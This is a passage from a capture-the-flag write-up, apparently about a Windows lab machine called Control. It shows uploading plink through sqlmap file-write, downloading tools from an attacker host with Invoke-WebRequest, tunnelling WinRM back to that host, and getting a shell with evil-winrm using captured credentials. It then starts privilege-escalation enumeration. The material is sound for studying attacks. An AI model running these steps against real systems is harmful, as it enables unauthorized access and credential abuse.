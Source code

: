 Now we can use this shell to execute `plink` and forward the WinRM port. Let's
upload `plink` with:
```
$ sqlmap -r post --file-dest='C:\inetpub\wwwroot\plink.exe' --file-write plink.exe
```

This one will really take a long time. One other thing that I could have done is
to download it using a HTTP server on my machine, and something like
`Invoke-WebRequest -Uri http://10.10.14.81:1338/plink.exe -OutFile plink.exe` in
the Temp directory, I guess I'm just being lazy.

Now let's forward the port, the syntax is basically the same as the `ssh` one:
```
PS C:\inetpub\wwwroot> ./plink.exe vagrant@10.10.14.81 -R 5985:127.0.0.1:5985
```

Be aware that you'll have to use your password, so I suggest changing it after
using it.

Now we can use the SSH tunnel to try the previously found credentials on WinRM:
```
$ evil-winrm -i localhost -u hector -p l33th4x0rhector

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Hector\Documents>
```

And we have a shell! Let's see we can read the flag:
```
*Evil-WinRM* PS C:\Users\Hector\Desktop> icacls user.txt
user.txt NT AUTHORITY\SYSTEM:(F)
         BUILTIN\Administrators:(F)
         CONTROL\Hector:(F)

Successfully processed 1 files; Failed processing 0 files
```

## Privilege escalation

This step took me multiple days because I don't know much about windows.

While enumerating I found the Powershell history:
```
*Evil-WinRM* PS C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine> cat ConsoleHost_history.txt
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```

So let's run those commands:
```
*Evil-WinRM* PS C:\Users\Hector\Documents> get-childitem HKLM:\SYSTEM\CurrentControlset | format-list

Property      : {BootDriverFlags, CurrentUser, EarlyStartServices, PreshutdownOrder...}
PSPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control
PSParentPath  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset
PSChildName   : Control
PSDrive       : HKLM
PSProvider    : Microsoft.PowerShell.Core\Registry
PSIsContainer : True
SubKeyCount   : 121
View          : Default
Handle        : Microsoft.Win32.SafeHandles.SafeRegistryHandle
ValueCount    : 11
```